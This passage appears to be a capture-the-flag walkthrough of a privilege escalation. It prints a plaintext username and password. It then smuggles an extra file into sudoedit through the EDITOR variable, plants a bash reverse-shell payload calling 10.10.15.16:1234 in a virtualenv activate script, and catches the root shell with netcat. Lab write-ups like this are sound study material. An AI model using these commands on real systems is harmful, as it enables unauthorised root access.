 ```username:corum```          ```password:5db7caa1d13cc37c9fc2```

![image](https://user-images.githubusercontent.com/67879936/224595287-4cfbd90d-3baa-4e41-9419-181dc420d97d.png)

Now, this looks like a virtual environment. So, we can use this to escalate our privileges. 

To exploit this we'll be inserting our payload into the file

payload:```/bin/bash -l > /dev/tcp/10.10.15.16/1234 0<&1 2>&1```

Ensure you change the $IP and $Port


Lets insert that payload into the file

>command: EDITOR="vi -- /app/venv/bin/activate" sudo -u dev_admin sudoedit /app/app-testing/tests/functional/creds.txt

![image](https://user-images.githubusercontent.com/67879936/224596161-340c81b2-d49a-45ec-8b80-2ae1919a9616.png)

Ensure this file is properly saved after adding your payload.

Our payload will be executed if we try switching to the virtual environment, before we switch set up your netcat listener

>command: rlwrap nc -nvlp 1234

To switch to the virtual environment

>command: source activate

![image](https://user-images.githubusercontent.com/67879936/224596651-d679ff9b-8c44-4da4-95c0-91ec70e8d9f4.png)

checking our listener

![image](https://user-images.githubusercontent.com/67879936/224596731-9055df88-789c-4667-8fd8-0b4ebd6c0bf3.png)

Boom!!! We got a root shell.


That will be all for today
<br> <br>
[Back To Home](../../index.md)

















```